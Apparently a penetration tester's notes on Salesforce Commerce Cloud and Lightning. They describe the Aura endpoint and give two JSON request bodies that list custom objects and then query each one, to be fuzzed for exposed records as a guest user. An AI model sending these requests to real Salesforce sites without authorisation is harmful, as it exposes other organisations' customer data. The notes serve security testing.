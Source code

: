 # Commerce Cloud

> [!summary]
> Commerce Cloud is an ecommerce platform from Salesforce. It is comprised of [Salesforce B2C Commerce](https://www.salesforce.com/eu/products/commerce-cloud/ecommerce/) and [Salesforce B2B Commerce](https://www.salesforce.com/eu/products/commerce-cloud/b2b-ecommerce/) which are often used together to deliver end to end unified commerce.

Salesforce AppExchange gives developers the power to customize applications with "**cartridges**", available to anyone and developed by anyone.
Cartridges are mechanisms for packing and deploying program code and data

# Lightning

> [!summary]
> Salesforce Lightning is a component-based framework for Salesforce app development.
> Usually sites build with Lightning uses one of the following URLs:
> - \*.force.com
> - \*.secure.force.com
> - \*.live.siteforce.com

Lightning leverages **Apex objects**:
- some are available by **Default** and secured by SalesForce
- others are **Custom Objects** (identified by the `_c` in their name, like `level_c`)

Custom Objects have a very complex sharing model:
- CRUDS
- Groups
- Sharing Rules
- Owner \[+Manual\] \[+Territory\] \[+Role\] 
- etc.

APEX Objects are similar to Java Objects: you can create classes (as templates) from which objects are instantiated.

In Lightning there is no actual administrator but there are specific groups created to perform privileged/restricted actions.
This is for ease of permissions but this is where custom objects become an issue.

## Pulling custom objects

1. Search HTTP request sent to AURA (from a guest user or an authenticated)
	- Eg. `POST /s/sites/aura?r=...`
2. Manipulate the JSON body and send the desired data:
	- `id`: random string used to identified multiple actions in the same request
	- `descriptor`: specific method to call
	- `callingDescriptor`: usually "UNKNOWN" since it is often ignored
	- `params`: parameters provided to the method

List all the custom objects:
```json
{
	"actions":[
		{
		"id":"123;a",
		"descriptor":"serviceComponent://ui.force.components.controllers.hostConfigController/ACTION$getConfigData",
		"callingDescriptor":"UNKNOWN",
		"params":{}
		}
	]
}
```

Query every object:
```json
{
	"actions":[
		{
		"id":"123;a",
		"descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems",
		"callingDescriptor":"UNKNOWN",
		"params":{"entityNameOrId":"NYC_Marketing_Preference__c"} // Fuzz the entityNameOrId with the various custom objects retreived before
		
		}
	]
}
```